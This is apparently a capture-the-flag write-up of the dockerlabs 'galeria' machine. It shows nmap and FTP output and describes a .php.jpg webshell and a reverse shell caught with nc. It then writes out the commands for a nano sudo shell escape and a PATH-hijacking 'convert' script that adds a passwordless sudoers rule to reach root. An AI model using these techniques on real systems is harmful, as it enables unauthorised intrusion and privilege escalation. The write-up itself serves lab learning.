







# galeria

## Executive Summary
| Machine | Author | Category | Platform |
| :--- | :--- | :--- | :--- |
| galeria | Raul A | easy / facil | dockerlabs |

**Summary:** The galeria machine presented a multi-stage exploitation path centred around an anonymous FTP server that exposed the web root of a Gallery application. Connecting anonymously revealed the web directory contents, including a hidden `.htaccess` file and a writable `ftp/` subdirectory mapped to the web server's upload path. Inspection of the `.htaccess` configuration disclosed a file type bypass rule, allowing PHP code to execute inside files with a `.php.jpg` double extension. A minimal PHP webshell was crafted with that extension and uploaded to the FTP server, after which it was triggered via the browser to confirm Remote Code Execution. A reverse shell was then delivered through the same vector, landing a foothold as `www-data`. A `sudo -l` check revealed that `www-data` could run `/bin/nano` as the `gallery` user without a password, and GTFOBins' nano shell escape (`nano -s /bin/sh`) was used to pivot to `gallery`. As `gallery`, a further `sudo -l` showed permission to run `/usr/local/bin/runme` as any user. Inspecting the binary's behaviour revealed it called an external command `convert` without an absolute path, making it vulnerable to PATH hijacking. A malicious `convert` script was written to `/tmp` that injected a full sudoers rule for `gallery`, and after prepending `/tmp` to `PATH` and running `sudo runme`, the rule was applied. A final `sudo -i` then spawned a fully privileged root shell.

---

## Reconnaissance

**1. Machine Deployment**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/galeria]
└─$ sudo bash auto_deploy.sh galeria.tar 
[sudo] password for ouba: 

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /"""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

**2. Port Scan**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/galeria]
└─$ nmap -sC -sV -p- -T4 $ip
Starting Nmap 7.99 ( https://nmap.org ) at 2026-07-27 19:24 +0700
Nmap scan report for 172.17.0.2
Host is up (0.0000090s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 550 Permission denied.
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Gallery
MAC Address: 42:42:86:A9:46:73 (Unknown)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.79 seconds
```

The scan identified two open services: an FTP server on port 21 with anonymous login allowed, and an Apache web server on port 80 titled "Gallery". The anonymous FTP access was an immediate priority.

---

## Initial Access

### Anonymous FTP Enumeration and File Exfiltration

**3. Connecting via Anonymous FTP**

An anonymous FTP session was opened, revealing the web root contents including a hidden `.htaccess` file, a writable `ftp/` directory, and seven image files. All files were downloaded for analysis.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/galeria]
└─$ ftp $ip
Connected to 172.17.0.2.
220 (vsFTPd 3.0.5)
Name (172.17.0.2:ouba): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
550 Permission denied.
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    1 ftp      ftp          4096 Mar 30  2025 .
drwxr-xr-x    1 ftp      ftp          4096 Mar 30  2025 ..
-rw-r--r--    1 ftp      ftp           362 Mar 28  2025 .htaccess
drwxr-xrwx    1 ftp      ftp          4096 Mar 30  2025 ftp
-rw-r--r--    1 ftp      ftp        335070 Mar 27  2025 image_1.jpg
-rw-r--r--    1 ftp      ftp        442122 Mar 27  2025 image_2.jpg
-rw-r--r--    1 ftp      ftp        459934 Mar 27  2025 image_3.jpg
-rw-r--r--    1 ftp      ftp        319652 Mar 27  2025 image_4.jpg
-rw-r--r--    1 ftp      ftp        480742 Mar 27  2025 image_5.jpg
-rw-r--r--    1 ftp      ftp        493404 Mar 27  2025 image_6.jpg
-rw-r--r--    1 ftp      ftp        434472 Mar 27  2025 image_7.jpg
226 Directory send OK.
ftp> mget *
mget ftp [anpqy?]? y
200 PORT command successful. Consider using PASV.
550 Failed to open file.
mget image_1.jpg [anpqy?]? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for image_1.jpg (335070 bytes).
100% |****************************************************************|   327 KiB   66.62 MiB/s    00:00 ETA
226 Transfer complete.
...
ftp> get .htaccess 
local: .htaccess remote: .htaccess
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for .htaccess (362 bytes).
100% |****************************************************************|   362        3.96 MiB/s    00:00 ETA
226 Transfer complete.
362 bytes received in 00:00 (855.96 KiB/s)
```

**4. Verifying Downloaded Files**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/galeria]
└─$ ls -la
total 626220
drwxr-xr-x 2 ouba ouba      4096 Jul 27 19:26 .
drwxr-xr-x 3 ouba ouba      4096 Jul 27 19:22 ..
-rw-r--r-- 1 ouba ouba      5250 Jun 25  2024 auto_deploy.sh
-rw------- 1 ouba ouba 638241792 May 13  2025 galeria.tar
-rw-r--r-- 1 ouba ouba       362 Mar 29  2025 .htaccess
-rw-r--r-- 1 ouba ouba    335070 Mar 28  2025 image_1.jpg
-rw-r--r-- 1 ouba ouba    442122 Mar 28  2025 image_2.jpg
-rw-r--r-- 1 ouba ouba    459934 Mar 28  2025 image_3.jpg
-rw-r--r-- 1 ouba ouba    319652 Mar 28  2025 image_4.jpg
-rw-r--r-- 1 ouba ouba    480742 Mar 28  2025 image_5.jpg
-rw-r--r-- 1 ouba ouba    493404 Mar 28  2025 image_6.jpg
-rw-r--r-- 1 ouba ouba    434472 Mar 28  2025 image_7.jpg
```

### Discovering the File Type Bypass in .htaccess

**5. Inspecting the .htaccess Configuration**

Reviewing the downloaded `.htaccess` file revealed a critical misconfiguration: a rule that instructed Apache to execute files with a `.php.jpg` double extension as PHP code. This meant that a PHP payload disguised with a `.jpg` extension suffix could be uploaded and executed on the server.



### Preparing and Uploading the PHP Webshell

**6. Crafting the Payload**

A minimal PHP webshell was crafted with the `.php.jpg` double extension to satisfy the `.htaccess` execution rule.



**7. Uploading via FTP**

The webshell was uploaded into the writable `ftp/` directory via the anonymous FTP session.



**8. Confirming the Upload**

```bash
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xrwx    1 ftp      ftp          4096 Mar 30  2025 ftp
-rw-r--r--    1 ftp      ftp        335070 Mar 27  2025 image_1.jpg
-rw-r--r--    1 ftp      ftp        442122 Mar 27  2025 image_2.jpg
-rw-r--r--    1 ftp      ftp        459934 Mar 27  2025 image_3.jpg
-rw-r--r--    1 ftp      ftp        319652 Mar 27  2025 image_4.jpg
-rw-r--r--    1 ftp      ftp        480742 Mar 27  2025 image_5.jpg
-rw-r--r--    1 ftp      ftp        493404 Mar 27  2025 image_6.jpg
-rw-r--r--    1 ftp      ftp        434472 Mar 27  2025 image_7.jpg
-rw-r--r--    1 ftp      ftp            31 Jul 27 12:32 shell.php.jpg
```

The `shell.php.jpg` file was confirmed to be present on the server.

### Triggering RCE and Obtaining a Reverse Shell

**9. Accessing the Webshell via Browser**

The uploaded webshell was accessed through the web server to verify Remote Code Execution.



**10. Confirming RCE**

Command execution was confirmed through the webshell response.



**11. Delivering the Reverse Shell Payload**

A reverse shell command was triggered through the webshell.



**12. Catching the Shell and Stabilising the TTY**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/galeria]
└─$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 37730
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@b68ea44b2ecc:/var/www/html/gallery/uploads/images$ ^Z
zsh: suspended  nc -lvnp 1337

┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/galeria]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 1337

www-data@b68ea44b2ecc:/var/www/html/gallery/uploads/images$ cd /var/www/html
www-data@b68ea44b2ecc:/var/www/html$ export TERM=xterm
www-data@b68ea44b2ecc:/var/www/html$ export SHELL=/bin/bash
www-data@b68ea44b2ecc:/var/www/html$ stty rows 80 cols 130
```

A stable, fully interactive TTY shell was obtained as `www-data`.

---

## Lateral Movement

### Pivoting from www-data to gallery via nano

**13. System Enumeration as www-data**

Inspection of `/etc/passwd` for interactive shell accounts and the `/home` directory revealed a second user `gallery` with a home directory.

```bash
www-data@b68ea44b2ecc:/var/www/html$ cat /etc/passwd | grep "sh$"
root:x:0:0:root:/root:/bin/bash
gallery:x:1001:1001::/home/gallery:/bin/sh
www-data@b68ea44b2ecc:/var/www/html$ ls -la /home
total 12
drwxr-xr-x 1 root    root    4096 Mar 29  2025 .
drwxr-xr-x 1 root    root    4096 Jul 27 06:23 ..
drwxr-x--- 1 gallery gallery 4096 Mar 29  2025 gallery
```

**14. Checking sudo Permissions for www-data**

```bash
www-data@b68ea44b2ecc:/var$ which sudo
/usr/bin/sudo
www-data@b68ea44b2ecc:/var$ sudo -l
Matching Defaults entries for www-data on b68ea44b2ecc:
    env_reset, mail_badpass, use_pty

User www-data may run the following commands on b68ea44b2ecc:
    (gallery) NOPASSWD: /bin/nano
    (www-data) NOPASSWD: /bin/nano
```

`www-data` was permitted to run `/bin/nano` as `gallery` without a password. The GTFOBins nano shell escape was applied.

**15. Escaping nano to Pivot to gallery**

The `-s` flag in nano allows executing an external command as a "spell checker", which was abused to spawn `/bin/sh` as the `gallery` user.



```bash
www-data@b68ea44b2ecc:/var$ sudo -u gallery nano -s /bin/sh
$ id
uid=1001(gallery) gid=1001(gallery) groups=1001(gallery)
$ sudo -l
Matching Defaults entries for gallery on b68ea44b2ecc:
    env_reset, mail_badpass, env_keep+=PATH, use_pty

User gallery may run the following commands on b68ea44b2ecc:
    (ALL) NOPASSWD: /usr/local/bin/runme
```

Lateral movement to `gallery` was successful. A further `sudo -l` revealed that `gallery` could run `/usr/local/bin/runme` as any user without a password. Crucially, `env_keep+=PATH` was set in the sudoers defaults, meaning the current `PATH` environment variable would be preserved across the `sudo` call.

---

## Privilege Escalation

### PATH Hijacking via sudo runme

**16. Crafting the Malicious convert Script**

The `runme` binary internally called an external program named `convert` without specifying an absolute path. Since the `PATH` was preserved across `sudo`, placing a malicious `convert` script earlier in `PATH` than the real binary would cause `runme` to execute it as root. The script was written to inject a full sudoers rule for `gallery`.

```bash
$ cd /tmp/
$ nano convert
$ cat convert
#!/bin/sh
echo "gallery ALL=(ALL) NOPASSWD:ALL" > /etc/sudoers.d/gallery
chmod 440 /etc/sudoers.d/gallery
$ chmod +x convert
$ ls -la convert
-rwxrwxr-x 1 gallery gallery 106 Jul 27 06:49 convert
$ export PATH=/tmp:$PATH
$ sudo runme
Converting image...
Done.
$ sudo -l
Matching Defaults entries for gallery on b68ea44b2ecc:
    env_reset, mail_badpass, env_keep+=PATH, use_pty

User gallery may run the following commands on b68ea44b2ecc:
    (ALL) NOPASSWD: /usr/local/bin/runme
    (ALL) NOPASSWD: ALL
```

The malicious `convert` script was executed by `runme` as root, successfully writing the sudoers rule. The updated `sudo -l` output confirmed that `gallery` now held full passwordless sudo privileges over all commands.

**17. Escalating to Root**

```bash
$ sudo -i
root@b68ea44b2ecc:~# id;whoami;hostname
uid=0(root) gid=0(root) groups=0(root)
root
b68ea44b2ecc
```

Full root access was achieved via `sudo -i`.

---

## Attack Chain Summary
1. **Reconnaissance**: Nmap identified FTP on port 21 with anonymous login and Apache on port 80 titled "Gallery".
2. **Vulnerability Discovery**: Anonymous FTP access exposed the web root, including a writable `ftp/` upload directory and a `.htaccess` file containing a rule that caused Apache to execute `.php.jpg` double-extension files as PHP code.
3. **Exploitation**: A PHP webshell named `shell.php.jpg` was crafted and uploaded via FTP. It was accessed through the browser to confirm RCE, then used to deliver a reverse shell, landing a foothold as `www-data`.
4. **Internal Enumeration**: A `sudo -l` check revealed `www-data` could run `/bin/nano` as `gallery` without a password. The GTFOBins nano shell escape (`nano -s /bin/sh`) pivoted the session to `gallery`. A further `sudo -l` showed `gallery` could run `/usr/local/bin/runme` as any user, with `env_keep+=PATH` preserved.
5. **Privilege Escalation**: The `runme` binary called `convert` without an absolute path. A malicious `convert` script was planted in `/tmp` to write a full sudoers rule for `gallery`. After prepending `/tmp` to `PATH` and running `sudo runme`, the rule was applied and `sudo -i` granted a full root shell.
